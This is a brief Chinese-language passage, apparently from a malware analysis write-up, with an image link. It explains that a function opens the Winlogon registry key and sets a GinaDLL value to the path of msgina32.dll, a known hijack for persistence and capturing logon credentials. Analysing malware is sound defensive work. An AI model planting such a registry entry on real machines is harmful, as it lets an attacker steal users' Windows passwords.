

此函数打开了`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`注册表位置，创建键为`GinaDLL`值为`msgina32.dll`文件全路径的注册表项。

